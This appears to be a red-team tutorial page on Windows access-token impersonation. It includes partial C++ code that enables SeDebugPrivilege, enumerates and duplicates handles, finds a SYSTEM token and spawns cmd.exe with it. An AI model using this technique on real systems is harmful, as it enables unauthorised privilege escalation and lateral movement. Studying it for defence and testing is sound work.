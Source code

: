 ```yaml
---
title: Playing with Tokens
category: User Impersonation
order: 1
---
```


An access token in Windows is a data structure used by the operating system to represent the security context of a process or thread. It contains information about the identity and privileges of the user or entity associated with the process or thread. Access tokens are essential for managing access control and ensuring security within the Windows environment.

Abuse of certain tokens allows an attacker to either escalate privileges on the system or even impersonate users to move laterally across the network.

Key features of an Access Token:

* **User Identity**: Identifies the user account associated with the token, usually by a Security Identifier (SID).
* **Privileges**: Lists the special rights or abilities assigned to the user or the process.

```
SeCreateTokenPrivilege
SeAssignPrimaryTokenPrivilege
SeLockMemoryPrivilege
SeIncreaseQuotaPrivilege
SeTcbPrivilege
SeSecurityPrivilege
SeTakeOwnershipPrivilege
SeLoadDriverPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeProfileSingleProcessPrivilege
SeIncreaseBasePriorityPrivilege
SeCreatePagefilePrivilege
SeCreatePermanentPrivilege
SeBackupPrivilege
SeRestorePrivilege
SeShutdownPrivilege
SeDebugPrivilege
SeAuditPrivilege
SeSystemEnvironmentPrivilege
SeChangeNotifyPrivilege
SeUndockPrivilege
SeManageVolumePrivilege
SeImpersonatePrivilege
```

* **Groups**: Specifies the groups to which the user belongs (e.g., `Administrators`, `Users`, `Guests`).
* **Default Owner**: Indicates the default owner for objects created by the process or thread.
* **Security Descriptors**: Defines how access to objects (like files or registry keys) is granted or denied based on the token.
* **Token Type**: Indicates whether the token is a `primary token` (used by a process) or an `impersonation` token (used by a thread to assume a different security context temporarily).
* **Source Information**: Contains details about the source of the token, such as the process or service that created it.
* **Session ID**: Links the token to the user's logon session.


If we achieve a user with `SeImpersonationPrivilege` which normally is enabled on services accounts, or we already pwned a local Administrator, we can Impersonate a logged on user.


We need `SE_DEBUG_NAME` SeDebugPrivilege in order to see all process information of the machine, to do that we should need a high privilege session.

```cpp
BOOL SetPrivilege(LPCTSTR lpszPrivilege, BOOL bEnablePrivilege) {
	HANDLE hToken;
    TOKEN_PRIVILEGES tp;
    LUID luid;

	if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken)) {
		printf("OpenProcessToken() failed!\n");
		return FALSE;
	}

    if ( !LookupPrivilegeValue( 
            NULL,            // lookup privilege on local system
            lpszPrivilege,   // privilege to lookup 
            &luid ) )        // receives LUID of privilege
    {
        printf("LookupPrivilegeValue error: %u\n", GetLastError() ); 
        return FALSE; 
    }
    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;
    if (bEnablePrivilege)
        tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    else
        tp.Privileges[0].Attributes = 0;

    if ( !AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES) NULL, (PDWORD) NULL) ) { 
          printf("AdjustTokenPrivileges error: %u\n", GetLastError() ); 
          return FALSE; 
    } 

    if (GetLastError() == ERROR_NOT_ALL_ASSIGNED) {
          printf("The token does not have the specified privilege.\n");
          return FALSE;
    } 
    return TRUE;
}

int main(int argc, char ** argv) {
    
    if(SetPrivilege(SE_DEBUG_NAME, ENABLE)){
        ListHandles();
    }
    return 0;
}
```


We want to list all the handles of the system. You can get more info on the following section:

* [https://benjugat.github.io/rtnotes/malware/object-enumeration/handle/](https://benjugat.github.io/rtnotes/malware/object-enumeration/handle/)


`NtDuplicateObject` is used to create a handle that duplicate of the specified source handle, useful for query it.

```cpp
typedef NTSTATUS (NTAPI * t_NtDuplicateObject)(
    HANDLE SourceProcessHandle,
    HANDLE SourceHandle,
    HANDLE TargetProcessHandle,
    PHANDLE TargetHandle,
    ACCESS_MASK DesiredAccess,
    ULONG Attributes,
    ULONG Options
);
```

Once enumerated all the handlers we can filter `ObjectTypeNumer to 0x5` to obtain all the tokens, remember we need to duplicate the handler in order to impersonate it.

```cpp
#define HANDLE_TOKEN 0x05
...
if(handle.ObjectTypeNumber == HANDLE_TOKEN){
    // Duplicate the handle to query it
    hProc = OpenProcess(PROCESS_DUP_HANDLE | PROCESS_QUERY_INFORMATION, FALSE, handle.ProcessId);
    if((pNtDuplicateObject(hProc, (void *) handle.Handle, GetCurrentProcess(), &dupHandle, 0, 0, DUPLICATE_SAME_ACCESS)) < 0){
        continue;
    }

    if(ListHandleToken(dupHandle) == 1){
        CloseHandle(dupHandle);
        break;
    }
    CloseHandle(dupHandle);
}
```

At that moment we have all the access tokens of the system, we need two things, the owner or the context and the privileges.

`GetTokenInformation`function retrieves a specified type of information about an access token. The calling process must have appropriate access rights to obtain the information

* [https://learn.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-gettokeninformation](https://learn.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-gettokeninformation)

```cpp
BOOL GetTokenInformation(
  [in]            HANDLE                  TokenHandle,
  [in]            TOKEN_INFORMATION_CLASS TokenInformationClass,
  [out, optional] LPVOID                  TokenInformation,
  [in]            DWORD                   TokenInformationLength,
  [out]           PDWORD                  ReturnLength
);
```
We need to specify two different `TOKEN_INFORMATION_CLASS`: `TokenUser` and `TokenPrivileges`.

These will retrieve these token structures:

```cpp
typedef struct _TOKEN_USER {
  SID_AND_ATTRIBUTES User;
} TOKEN_USER, *PTOKEN_USER;

typedef struct _TOKEN_PRIVILEGES {
  DWORD               PrivilegeCount;
  LUID_AND_ATTRIBUTES Privileges[ANYSIZE_ARRAY];
} TOKEN_PRIVILEGES, *PTOKEN_PRIVILEGES;
```

Finally with the help of `LookupAccountSid` and `LookupPrivilegeNameA` we are going to be able to translate the `SID_AND_ATTRIBUTES` and `LUID_AND_ATTRIBUTES` structure to printable ones.

So, knowing the context of the user, and having `SeImpersonatePrivilege` rights on the token we should be able to impersonate a user, which can be easily filtered on the following code.

```cpp
int ListHandleToken(HANDLE hDup){
    TOKEN_USER * tInfo;
    DWORD dwSize = 0;
    TOKEN_PRIVILEGES * tPriv;
    DWORD dwSize2 = 0;
    STARTUPINFOW si = { sizeof(STARTUPINFOW) };
    PROCESS_INFORMATION pi;

    // QUERY TOKEN_USER
    GetTokenInformation(hDup, TokenUser, NULL, 0, &dwSize);
    tInfo = (TOKEN_USER *)malloc(dwSize);
    if(GetTokenInformation(hDup, TokenUser, tInfo, dwSize, &dwSize)==0){
        printf("Error 0x%x\n",GetLastError());
    }
    TCHAR name[256], domain[256];
    DWORD nameSize = 256, domainSize = 256;
    SID_NAME_USE sidType;
    
    if (LookupAccountSid(NULL, tInfo->User.Sid, name, &nameSize, domain, &domainSize, &sidType)) {
        printf("%s\\%s\n",domain,name); 
        // TOKEN from NT AUTHORITY\SYSTEM
        if(strcmp(name, "SYSTEM") == 0){
            // QUERY TOKEN_PRIVILEGES
            GetTokenInformation(hDup, TokenPrivileges, NULL, 0, &dwSize2);
            tPriv = (TOKEN_PRIVILEGES *)malloc(dwSize2);
            if(GetTokenInformation(hDup, TokenPrivileges, tPriv, dwSize2, &dwSize2)==0){
                printf("Error 0x%x\n",GetLastError());
            }
            for(int i=0; i<tPriv->PrivilegeCount; i++){
                LUID_AND_ATTRIBUTES priv = tPriv->Privileges[i];
                char privName[256];
                DWORD size = sizeof(privName);
                if (LookupPrivilegeNameA(NULL, &priv.Luid, privName, &size)) {
                    printf("\tPriv - > %s\n", privName);

                    // SeImpersonatePrivilege Token
                    if(strcmp(privName, "SeImpersonatePrivilege")==0){
                        ImpersonateLoggedOnUser(hDup);
                        if(CreateProcessWithTokenW(hDup, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &si, &pi)){
                            printf("[+] CMD launched!\n");
                            RevertToSelf();
                            return 1;
                        }else{ 
                            printf("[-] Error-> 0x%x\n", GetLastError());
                        }
                    }
                }
            }
        }
    }
    return 0;
}
```